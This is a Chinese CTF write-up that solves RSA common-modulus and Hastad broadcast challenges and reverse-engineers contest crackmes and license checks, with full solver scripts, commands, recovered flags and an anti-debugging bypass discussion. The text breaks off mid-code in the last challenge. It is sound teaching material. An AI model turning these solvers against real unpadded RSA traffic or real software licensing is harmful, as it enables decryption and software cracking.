




## Crypto

### Cry_01.Twin Orbit / 双轨加密

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Crypto |
| 题目名称 | Cry_01.Twin Orbit / 双轨加密 |
| 附件 | twin_orbit.zip |
| 附件 SHA256 | F052DDBC917F2CE74336B4C7D9AB505E2CD91FB2182F0E3BFBAE65200B44BB50 |
| Flag 格式 | flag{...} |

题面给出两个 RSA 公钥复用了同一个模数 `n`，指数分别为 `e1 = 65537` 和 `e2 = 17`。两条轨道传输的是同一份核心指令，也就是同一个明文被两个不同指数加密。

#### 解题思路

附件中有 `encrypt.py`、`output.txt` 和 `README.txt`。先看 `encrypt.py`，可以确认加密逻辑非常直接：

```python
from Crypto.Util.number import bytes_to_long

def encrypt_message(flag: bytes, n: int):
    m = bytes_to_long(flag)

    e1 = 65537
    e2 = 17

    c1 = pow(m, e1, n)
    c2 = pow(m, e2, n)

    return e1, e2, c1, c2
```

这里没有 padding，也没有额外编码。两个密文满足：

```text
c1 = m^e1 mod n
c2 = m^e2 mod n
```

当两个指数互素时，可以用扩展欧几里得找到整数 `a`、`b`，使：

```text
a * e1 + b * e2 = 1
```

那么：

```text
c1^a * c2^b = m^(a*e1) * m^(b*e2) = m^(a*e1+b*e2) = m mod n
```

这就是 RSA 共模攻击。当前题目中：

```text
65537 * (-8) + 17 * 30841 = 1
```

所以需要计算：

```text
m = c1^(-8) * c2^30841 mod n
```

负指数部分不能直接当普通幂处理，需要先求 `c1` 在模 `n` 下的逆元。由于 `gcd(c1, n) = 1`，逆元存在。

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l twin_orbit.zip
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x evidence\twin_orbit.zip -ooutputs\twin_orbit -y
python scripts\solve.py
```

#### 完整关键代码

```python
from math import gcd


def egcd(a: int, b: int) -> tuple[int, int, int]:
    if b == 0:
        return a, 1, 0
    g, x1, y1 = egcd(b, a % b)
    return g, y1, x1 - (a // b) * y1


def long_to_bytes(value: int) -> bytes:
    return value.to_bytes((value.bit_length() + 7) // 8, "big")


def main() -> None:
    n = 78429219359517922271023478963814594552681246043944770910304760471867765174623304038843626799213010074714647155283331308571847776870166597053823412781788611608177305819593874012686298378748721435009046767613360191457980203020570462985478543330425482286818857391023923223033155751757576833456411434713984471383
    e1 = 65537
    e2 = 17
    c1 = 71282312105868131740394478794008286284074152062907735987516077413351604126882776234623911447307962528308126218712123568701353026231889282844009867916343556840839139885445525543186695511199429927944296268193188530317628821728534582820389657490317666947095834711636160892093284048993666399747630728635978820198
    c2 = 70751964066395185933408819650408191047287659276501425712138199434404000627978244880544478152411510337684996008892030606559772725285766060014956720285732207231186134371296910276169402781919701351782279058927891124229021162906608266092058475936622126108377526917909078829421351716554783863514592590874754685769

    g, a, b = egcd(e1, e2)
    assert g == 1

    part1 = pow(c1, a, n) if a >= 0 else pow(pow(c1, -1, n), -a, n)
    part2 = pow(c2, b, n) if b >= 0 else pow(pow(c2, -1, n), -b, n)
    m = (part1 * part2) % n

    flag = long_to_bytes(m).decode()
    assert gcd(c1, n) == 1 and gcd(c2, n) == 1
    assert pow(m, e1, n) == c1
    assert pow(m, e2, n) == c2
    assert flag.startswith("flag{") and flag.endswith("}")

    print(f"a = {a}, b = {b}")
    print(flag)


if __name__ == "__main__":
    main()
```

#### 验证输出

运行脚本得到：

```text
a = -8, b = 30841
flag{ZeroG_common_modulus_attack}
```

脚本中同时做了两条回代验证：

```python
assert pow(m, e1, n) == c1
assert pow(m, e2, n) == c2
```

这说明恢复出的明文确实同时对应附件给出的两条轨道密文。

#### 知识点总结

RSA 共模攻击的前提是同一个明文使用同一个模数 `n`，但用了互素的不同公钥指数进行加密。此时不用分解 `n`，只要利用扩展欧几里得把两个指数线性组合成 `1`，就能把两个密文组合回原始明文。

实现时最需要注意的是负系数。负指数表示模逆元幂，因此必须先确认对应密文与 `n` 互素，再使用模逆元参与计算。

#### 最终 flag

```text
flag{ZeroG_common_modulus_attack}
```


### Cry_03.Phobos Padding / 火卫一填充

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Crypto |
| 题目名称 | Cry_03.Phobos Padding / 火卫一填充 |
| 附件 | player_phobos_padding.zip |
| 附件 SHA256 | 0A746A2C32E7C82336B9C8121C8B976D32193C3C8AA1283DA3FDDA195200C5E9 |
| Flag 格式 | flag{...} |

题面给出同一份核心指令被发送给三个不同接收端。每个接收端使用不同 RSA 模数 `n`，但都使用很小的公钥指数 `e = 3`，并且没有 padding。这个组合正好对应 Hastad broadcast attack，也就是 RSA 低指数广播攻击。

#### 解题思路

附件中仍然是 `README.txt`、`encrypt.py` 和 `output.txt`。先看加密脚本，可以确认它把同一个明文整数 `m` 分别对三个不同模数做 raw RSA：

```python
from Crypto.Util.number import bytes_to_long

def encrypt(flag: bytes, public_keys):
    """
    public_keys:
        [
            (n1, e),
            (n2, e),
            (n3, e),
        ]

    Warning:
        This demo intentionally uses raw RSA without padding.
    """
    m = bytes_to_long(flag)

    result = []

    for n, e in public_keys:
        c = pow(m, e, n)
        result.append((n, e, c))

    return result
```

也就是说有三组同余：

```text
c1 = m^3 mod n1
c2 = m^3 mod n2
c3 = m^3 mod n3
```

三个模数两两互素时，可以用中国剩余定理合并这三组同余，得到唯一的：

```text
x = m^3 mod (n1 * n2 * n3)
```

如果明文足够短，满足 `m^3 < n1 * n2 * n3`，那么这个 `x` 就不只是模意义下的值，而是整数意义上的 `m^3`。因此对 `x` 开整数三次方即可恢复明文。

#### 技术实施

先检查三个模数是否两两互素：

```text
gcd(n1, n2) = 1
gcd(n1, n3) = 1
gcd(n2, n3) = 1
```

互素条件成立后，使用 CRT 合并三个密文。合并结果开三次方时必须做精确性验证，避免把近似浮点开方误当成整数根。本题开出的根满足：

```text
m^3 == CRT(c1, c2, c3)
```

并且回代到三组 RSA 加密中也全部成立：

```python
assert pow(m, 3, n1) == c1
assert pow(m, 3, n2) == c2
assert pow(m, 3, n3) == c3
```

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l player_phobos_padding.zip
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x evidence\player_phobos_padding.zip -ooutputs\player_phobos_padding -y
python scripts\solve.py
```

#### 完整关键代码

```python
from math import gcd


def crt(remainders: list[int], moduli: list[int]) -> int:
    modulus_product = 1
    for modulus in moduli:
        modulus_product *= modulus

    result = 0
    for remainder, modulus in zip(remainders, moduli):
        partial = modulus_product // modulus
        inverse = pow(partial, -1, modulus)
        result += remainder * partial * inverse

    return result % modulus_product


def integer_nth_root(value: int, n: int) -> tuple[int, bool]:
    low, high = 0, 1
    while high**n <= value:
        high *= 2

    while low + 1 < high:
        mid = (low + high) // 2
        powered = mid**n
        if powered <= value:
            low = mid
        else:
            high = mid

    return low, low**n == value


def long_to_bytes(value: int) -> bytes:
    return value.to_bytes((value.bit_length() + 7) // 8, "big")


def main() -> None:
    e = 3

    n1 = 9203118261705868019110006623273896134322296004495934622126321588206198211590594608536574205500841860912183113474492528101942483463604127057100041845594123
    c1 = 225326225723570437926892098700724301640108952320044616725184090895511961737080288471190011942447422341235122945729017303171992927231675218640713872178033

    n2 = 8218974785294030613346971087108222043759818458429043768635262660088269400867661193359046399568686339887944628791712180696779799918022646158973494803220299
    c2 = 3407676048044393024576659577470571794093695115844258472643168272782162860244002027327745232045383478691907846926814490953793141526176684717238078901972654

    n3 = 8640442409248695297781745462901828098989267118787634310572918885729221856234292677073935037333836295724444289085611427540896246989248186559475612627680863
    c3 = 6492260343134932927953198433174002823828534869771319070490239692685600132982822403083735209163800494671140850876058194194328293660168048521787716473266503

    moduli = [n1, n2, n3]
    ciphertexts = [c1, c2, c3]

    assert gcd(n1, n2) == gcd(n1, n3) == gcd(n2, n3) == 1

    m_power_e = crt(ciphertexts, moduli)
    m, exact = integer_nth_root(m_power_e, e)
    assert exact
    assert m**e < n1 * n2 * n3
    assert all(pow(m, e, n) == c for n, c in zip(moduli, ciphertexts))

    flag = long_to_bytes(m).decode()
    assert flag.startswith("flag{") and flag.endswith("}")
    print(flag)


if __name__ == "__main__":
    main()
```

#### 验证输出

运行脚本得到：

```text
flag{ZeroG_hastad_broadcast_attack}
```

脚本中已经验证三个模数两两互素、CRT 合并结果可以精确开三次方，并且恢复出的明文回代三组密文均成立。

#### 知识点总结

Hastad broadcast attack 的关键条件是同一明文、相同小指数、不同且互素的模数、无 padding。当收集到至少 `e` 组密文时，可以通过 CRT 合并出 `m^e`，再开整数 `e` 次方恢复明文。

安全的 RSA 加密不能直接对明文做裸 RSA 幂运算，应使用带随机性的安全填充方案。没有 padding 时，即使每个接收端的模数不同，相同明文的低指数广播仍然会直接泄露内容。

#### 最终 flag

```text
flag{ZeroG_hastad_broadcast_attack}
```


## Reverse

### Re_01.Docking Check / 对接口令校验

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Reverse |
| 题目名称 | Re_01.Docking Check / 对接口令校验 |
| 附件 | dock_check.zip |
| 附件 SHA256 | 799AC6CBA33AB23038C977C25994B4A9B7E70B9389CF199CAAA1A9C09604980D |
| Flag 格式 | flag{...} |

题面描述 ZeroG 空间站的对接舱需要输入授权口令，并提示重点在字节级变换分析，涉及 `rol`、`xor`、`add` 等简单可逆运算。这个提示已经把方向指向了静态分析校验循环，再从校验常量反推输入。

#### 解题思路

附件解压后得到 stripped 的 64 位 PIE ELF 程序 `dock_check` 和 `README.txt`。README 明确给出运行方式和 flag 格式：

```text
chmod +x dock_check
./dock_check

Flag format:
flag{...}
```

先用 `strings` 查看程序中的提示字符串，可以看到：

```text
ZeroG Docking Authorization
Input token:
[-] Access denied.
[+] Docking sequence unlocked.
```

说明程序是一个本地口令校验器。继续查看 `.rodata`，在提示字符串后方发现一段 28 字节的非文本常量：

```text
774c3ad6e027d53314d6fae9e037297e3d946db37a56a0babf07a37b
```

结合题面“从校验常量反推 flag”的提示，这段数据就是最终比较目标。

#### 技术实施

主逻辑位于 `.text` 的 `0x10e0` 到 `0x1284` 附近。程序通过 `fgets` 读取输入，去掉末尾换行后要求字符串长度为 `28`。随后进入逐字节校验循环，循环次数也正好是 `0x1c`，也就是 28 次。

校验循环的初始状态如下：

```text
state = 0x3c
xor_key = 0x06
add_key = 0x17
```

每轮处理一个输入字节，逻辑可以还原为：

```text
value = input[i] ^ xor_key
value = value + add_key
value = rol8(value, (i % 7) + 1)
value = value ^ 0xa5
state = state ^ value
state == check[i]
```

每轮结束后，两个 key 继续递增：

```text
xor_key += 0x0d
add_key += 0x11
```

这里所有操作都发生在字节范围内，而且 `xor`、`add`、`rol` 都可逆。因此可以从 `check[i]` 和上一轮的 `state` 反推当前输入字节：

```text
after_rol = (state ^ check[i]) ^ 0xa5
before_rol = ror8(after_rol, (i % 7) + 1)
input[i] = (before_rol - add_key) ^ xor_key
```

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l dock_check.zip
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x dock_check.zip -oevidence -y
wsl bash -lc "file evidence/dock_check && objdump -s -j .rodata evidence/dock_check"
python scripts\solve.py
```

#### 完整关键代码

```python
CHECK = bytes.fromhex("774c3ad6e027d53314d6fae9e037297e3d946db37a56a0babf07a37b")


def rol8(value: int, count: int) -> int:
    count &= 7
    return ((value << count) | (value >> (8 - count))) & 0xFF


def ror8(value: int, count: int) -> int:
    count &= 7
    return ((value >> count) | (value << (8 - count))) & 0xFF


def recover() -> bytes:
    state = 0x3C
    xor_key = 0x06
    add_key = 0x17
    plain = []

    for index, expected in enumerate(CHECK):
        rotate = (index % 7) + 1
        after_rol = (state ^ expected) ^ 0xA5
        before_rol = ror8(after_rol, rotate)
        ch = ((before_rol - (add_key & 0xFF)) & 0xFF) ^ (xor_key & 0xFF)
        plain.append(ch)

        state = expected
        xor_key = (xor_key + 0x0D) & 0xFFFFFFFF
        add_key = (add_key + 0x11) & 0xFFFFFFFF

    return bytes(plain)


def encode(token: bytes) -> bytes:
    state = 0x3C
    xor_key = 0x06
    add_key = 0x17
    out = []

    for index, ch in enumerate(token):
        value = ch ^ (xor_key & 0xFF)
        value = (value + (add_key & 0xFF)) & 0xFF
        value = rol8(value, (index % 7) + 1)
        value ^= 0xA5
        state ^= value
        out.append(state)

        xor_key = (xor_key + 0x0D) & 0xFFFFFFFF
        add_key = (add_key + 0x11) & 0xFFFFFFFF

    return bytes(out)


def main() -> None:
    token = recover()
    assert encode(token) == CHECK
    print(token.decode("ascii"))


if __name__ == "__main__":
    main()
```

#### 验证输出

运行反推脚本得到：

```text
flag{ZeroG_vm_docking_check}
```

将脚本输出直接输入原始程序，程序返回成功提示：

```text
ZeroG Docking Authorization
Input token: [+] Docking sequence unlocked.
```

#### 知识点总结

这题是典型的字节级可逆校验。遇到这类逻辑时，先不要急着爆破输入，而是从成功输出和失败输出回溯主校验循环，再找固定常量表和每轮状态更新。

只要确认每一步都是可逆运算，就能按照相反顺序恢复输入。这里的关键细节有两个：一是 `rol` 的位数来自 `(index % 7) + 1`，二是最终比较的不是单轮变换结果，而是与滚动 `state` 异或后的结果。因此反推时每轮要先用上一轮的 `state` 解出当前变换值，再把 `state` 更新成当前校验常量。

#### 最终 flag

```text
flag{ZeroG_vm_docking_check}
```

### Re_02.Lunar License / 许可证算法逆向

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Reverse |
| 题目名称 | Re_02.Lunar License / 许可证算法逆向 |
| 附件 | lunar_license.zip |
| 附件 SHA256 | 7B0D67D281237AB41D074D1581ADBE73E2788008A7CC0DA01EE2ACC7B6E51E06 |
| Flag 格式 | flag{...} |

附件中包含 `README.txt` 和一个被 strip 过的 Linux ELF 程序 `lunar_license`。README 写得很直接：程序会检查一个 32 位十六进制许可证，也就是 16 字节原始数据，目标是恢复正确许可证并拿到 flag。

#### 解题思路

先做轻量静态分析。`strings` 能看到程序提示：

```text
ZeroG Lunar Authorization System
Enter license (32 hex chars):
[-] Invalid license format.
[-] License rejected.
[+] License accepted.
[+] Flag:
```

`objdump -s -j .rodata` 显示 `.rodata` 只有 0x100 字节，字符串后面只剩两段高熵常量，因此这题最重要的材料基本都藏在 `.rodata` 中。

反汇编主逻辑后可以把流程拆成两段。前一段读取输入，要求长度必须是 32 个十六进制字符，然后每两个字符解成一个字节，总共得到 16 字节许可证。后一段逐字节执行状态机校验：把许可证字节和状态字节异或，按一个由索引决定的旋转次数做循环移位，再叠加两个滚动常量，最后与 `.rodata + 0x20f0` 的 16 字节目标表比较。只要有一个字节不匹配就直接拒绝。

因为最终比较目标表已经暴露出来，这个校验不需要爆破，而是可以逐字节反推。每轮只涉及一个目标字节、一个状态字节和当前滚动常量，因此可以把比较式直接求逆，恢复出 16 个原始许可证字节。

#### 技术实施

程序里能提取出两段关键常量。第一段是许可证校验目标表：

```text
b4 68 6e bd eb fd 0d c7 b7 86 ac 6d 3a 2e 68 8d
```

第二段是 flag 密文：

```text
96 e8 7f 67 b5 88 b1 70 ad d8 31 1b 07 ca d4 b9
ff b8 07 33 9b 6c 57 97 4d dd 5b 71 67 86 f6 7a 3c 59
```

状态机初始参数如下：

```text
state = 0x4c554e52
add_value = 0x27
xor_value = 0x00
```

每个许可证字节的校验逻辑可以整理为：

```text
state_byte = (state >> ((index & 3) * 8)) & 0xff
count = rotation_count(index)
mixed = rol8(state_byte ^ license_byte, count)
result = ((mixed + add_value) & 0xff) ^ xor_value ^ 0x5c
assert result == target[index]
```

其中 `rotation_count(index)` 并不是简单的 `index % n`，而是通过魔数乘法 `0xCCCCCCCCCCCCCCCD` 构造出来的状态机计数。把这段汇编精确翻译成 Python 后，就能稳定复现每一轮的旋转次数。

由于 `target[index]` 已知，上面的等式可以直接求逆：

```text
rotated = (target[index] ^ xor_value ^ 0x5c) - add_value
license_byte = ror8(rotated, count) ^ state_byte
```

逐字节反推 16 轮后，恢复出的许可证为：

```text
b2cb4269b851449f6828aaa6ac4f4dce
```

程序在每轮校验通过后还会更新状态：

```text
state = rol32(target_byte ^ state ^ 0xa5a5a5a5, 7) + 0x13371337
add_value += 0x13
xor_value += 0x07
```

这也是为什么必须严格按顺序逐轮求解，而不是把 16 个字节拆开独立处理。

校验全部通过后，程序会用恢复出的 16 字节许可证去解 `.rodata + 0x20c0` 的 flag 密文。解密逻辑也不复杂：密文字节先与一个从 `0x42` 开始、每轮增加 `0x0d` 的滚动值异或，再与许可证按 16 字节循环异或，最终还原出 flag。

#### 关键命令

```powershell
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe l lunar_license.zip
D:\CaptureTheFlag\CTFTool\7-Zip\7z.exe x .\lunar_license.zip -o.\evidence -y
wsl bash -lc "cd '/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Reverse/Re_02.Lunar License' && objdump -d -M intel evidence/lunar_license"
wsl bash -lc "cd '/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Reverse/Re_02.Lunar License' && objdump -s -j .rodata evidence/lunar_license"
python .\scripts\solve.py
wsl bash -lc "cd '/mnt/c/Users/glj07/Desktop/Codex工作区/Writeup/CTF/零重力/Reverse/Re_02.Lunar License' && printf 'b2cb4269b851449f6828aaa6ac4f4dce\n' | evidence/lunar_license"
```

#### 完整关键代码

```python
def rol8(value, count):
    count &= 7
    value &= 0xFF
    if count == 0:
        return value
    return ((value << count) | (value >> (8 - count))) & 0xFF


def ror8(value, count):
    count &= 7
    value &= 0xFF
    if count == 0:
        return value
    return ((value >> count) | (value << (8 - count))) & 0xFF


def rol32(value, count):
    count &= 31
    value &= 0xFFFFFFFF
    return ((value << count) | (value >> (32 - count))) & 0xFFFFFFFF


def rotation_count(index):
    """Emulate the stripped binary's magic-multiply state-machine count."""
    magic = 0xCCCCCCCCCCCCCCCD
    product = index * magic
    high = product >> 64
    folded = (high & 0xFFFFFFFFFFFFFFFC) + (high >> 2)
    return (index - folded + 1) & 0xFF


def recover_license():
    target = bytes.fromhex("b4686ebdebfd0dc7b786ac6d3a2e688d")
    state = 0x4C554E52
    add_value = 0x27
    xor_value = 0
    out = []

    for index, expected in enumerate(target):
        state_byte = (state >> ((index & 3) * 8)) & 0xFF
        count = rotation_count(index)
        rotated = (expected ^ (xor_value & 0xFF) ^ 0x5C) - (add_value & 0xFF)
        license_byte = ror8(rotated, count) ^ state_byte

        check = (rol8(state_byte ^ license_byte, count) + (add_value & 0xFF)) & 0xFF
        check ^= xor_value & 0xFF
        check ^= 0x5C
        assert check == expected

        out.append(license_byte)

        next_state = expected ^ state ^ 0xA5A5A5A5
        state = (rol32(next_state, 7) + 0x13371337) & 0xFFFFFFFF
        add_value = (add_value + 0x13) & 0xFFFFFFFF
        xor_value = (xor_value + 0x07) & 0xFFFFFFFF

    return bytes(out)


def decrypt_flag(license_bytes):
    encrypted = bytes.fromhex(
        "96e87f67b588b170add8311b07cad4b9"
        "ffb807339b6c57974ddd5b716786f67a3c59"
    )
    rolling = 0x42
    out = []
    for index, value in enumerate(encrypted):
        out.append(value ^ (rolling & 0xFF) ^ license_bytes[index & 0xF])
        rolling = (rolling + 0x0D) & 0xFFFFFFFF
    return bytes(out)


def main():
    license_bytes = recover_license()
    flag = decrypt_flag(license_bytes).decode()
    print(f"license_hex = {license_bytes.hex()}")
    print(f"flag = {flag}")


if __name__ == "__main__":
    main()
```

#### 验证输出

恢复脚本输出：

```text
license_hex = b2cb4269b851449f6828aaa6ac4f4dce
flag = flag{ZeroG_lunar_license_reversal}
```

把恢复出的许可证直接喂给原程序后，程序输出：

```text
ZeroG Lunar Authorization System
Enter license (32 hex chars): [+] License accepted.
[+] Flag: flag{ZeroG_lunar_license_reversal}
```

#### 知识点总结

这题非常适合练 stripped ELF 的轻量逆向思路。程序虽然没有符号，但 `.rodata` 很小、校验逻辑按字节展开，因此完全没必要一开始就上重型反编译器。先看字符串，再看常量表，最后围绕比较点写出可逆公式，通常会比在反汇编窗口里硬啃控制流更快。

另一个关键点是把“状态机”拆成两个层面来看：单字节可逆变换和跨轮状态更新。前者负责直接求出每一位许可证，后者保证每一轮上下文不同。把这两层分开翻译之后，恢复脚本就会非常清晰。

#### 最终 flag

```text
flag{ZeroG_lunar_license_reversal}
```

### Re_03.Nebula Patch / 星云补丁

#### 题目信息

| 项目 | 内容 |
| --- | --- |
| 比赛来源 | 零重力 |
| 题目分类 | Reverse |
| 题目名称 | Re_03.Nebula Patch / 星云补丁 |
| 附件 | `nebula_patch.zip` |
| 附件 SHA256 | `0669C03109929EDC4DDFF0DDC7E05DC030EC7606DCD3AB5D8AD6D5889C3B6501` |
| Flag 类型 | 静态 flag |
| Flag 格式 | `flag{...}` |

题面说星云模块内置许可证校验逻辑，并刻意加入了反调试与多层判断。Fen 留下的提示“如果星云不让你观察它，那就改变观测路径”，很适合用来提示静态拆逻辑而不是硬跟调试器。

#### 解题思路

附件里只有一个 stripped 的 64 位 ELF 程序 `nebula_patch` 和简短说明。先做基础摸底后可以确认它确实是 `ELF 64-bit LSB pie executable, x86-64, stripped, dynamically linked`，而且字符串里已经暴露了几个关键提示：`Nebula distortion detected.`、`Nebula gate collapsed.`、`Access granted.`。

既然题面已经提前警告有反调试，就不把精力耗在和调试器正面对抗上，而是直接把主流程和校验流程静态拆开。这样能更快看到哪些逻辑真的影响结果，哪些只是烟雾弹。

#### 技术实施

程序前面先做两层反调试。第一层是 `ptrace(PTRACE_TRACEME, ...)`，第二层读取 `/proc/self/status` 并检查 `TracerPid:` 是否为 0。只要发现调试痕迹，就会输出：

```text
[!] Nebula distortion detected.
```

主逻辑里还有一个看起来像关键分支的块，但那段计算出来的低字节固定是 `0xD4`，然后又拿去和 `0x42` 比较，所以通往：

```text
[!] Nebula gate collapsed.
```

的路径其实是死分支，真正分析时可以直接略过。

真正的输入校验使用 `fgets` 读取字符串，去掉尾部换行后要求长度必须等于 `0x12`，也就是 18 个字符。目标字节位于 `.rodata` 的 `0x2110`：

```text
04 8e b3 88 fa 73 d9 1f 81 04 8b 0c aa 3a 56 a1 37 85
```

校验循环的初始状态是：

```text
acc = 0x6d
r9  = 0x67
r10 = 0x17
```

每轮的核心变换可以整理成：

```python
tmp = rol8(input[i] ^ (r9 & 0xff), (i % 6) + 1)
tmp = (tmp + (r10 & 0xff)) & 0xff
acc ^= tmp
assert acc == target[i]
r9 += 0x0b
r10 += 0x17
```

因为每轮都会把 `acc` 直接和目标字节比较，所以可以逆着推回输入：

```python
z = acc ^ target[i]
y = (z - (r10 & 0xff)) & 0xff
input[i] = ror8(y, (i % 6) + 1) ^ (r9 & 0xff)
```

恢复出的正确口令是：

```text
Nebula-7F3A-Vector
```

口令校验通过后，程序会继续进入 flag 生成逻辑。它会先把口令喂进一段 32 位状态更新过程，生成种子：

```python
esi = 0x9E3779B9
edi = 0x4E42554C

